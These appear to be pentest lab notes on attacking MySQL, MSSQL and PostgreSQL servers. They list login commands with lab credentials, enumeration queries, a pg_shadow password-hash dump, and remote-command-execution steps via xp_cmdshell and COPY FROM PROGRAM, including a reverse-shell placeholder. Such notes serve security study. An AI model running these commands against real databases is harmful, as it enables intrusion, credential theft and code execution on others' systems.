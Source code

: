# MySQL
```bash
mysql -u root -p'root' -h 192.168.50.16 -P 3306 #此处-p<passwd>间无空格！
select system_user(); # database(),@@version();
\! sh #并不能使用mysql用户
```
[MySQL_CheatSheets](https://devhints.io/mysql)
# MSSQL
```bash
#master、tempdb、model和msdb -> default dbs
impacket-mssqlclient Administrator:Lab123@192.168.50.18 -windows-auth -port <port>

SELECT @@version;
SELECT name FROM sys.databases; 

SELECT * FROM offsec.information_schema.tables; 
select * from offsec.dbo.users;
```
## RCE
```bash
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
# RCE ！ 
EXECUTE xp_cmdshell 'whoami';
```
# PostgreSQL
```bash
# Default creds: postgres:postgres
psql -U <username>
psql -h <host> -p <port> -U <username> -W <password> <database>

\list # List databases
\c <database> # use the database
\d # List tables
\du+ # Get users roles
SELECT schema_name,schema_owner FROM information_schema.schemata;
SELECT usename, passwd from pg_shadow;
```
## RCE
Since version 9.3, only super users and member of the group 
pg_execute_server_program
 can use copy for RCE
 [squid22](https://github.com/squid22/PostgreSQL_RCE.git)
```bash
## RCE
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

COPY cmd_exec FROM PROGRAM \'' + rev_shell  + '\';
# tie up
git clone https://github.com/squid22/PostgreSQL_RCE.git
```
